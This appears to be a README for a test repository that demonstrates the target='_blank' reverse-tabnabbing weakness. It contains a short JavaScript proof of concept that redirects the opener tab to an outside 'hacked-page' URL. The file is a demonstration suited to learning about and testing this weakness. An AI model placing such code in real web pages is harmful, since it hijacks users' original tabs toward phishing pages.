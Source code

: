 # Blank Test

Test repo for the target="_blank" security vulnerability


## Exploit

```js
if (window.opener !== null && window.opener.location !== null) {
  window.opener.location = 'https://adriansieber.com/blank-test/hacked-page.html'
}
else {
  console.log('Opener window can\'t be accessed')
}
```
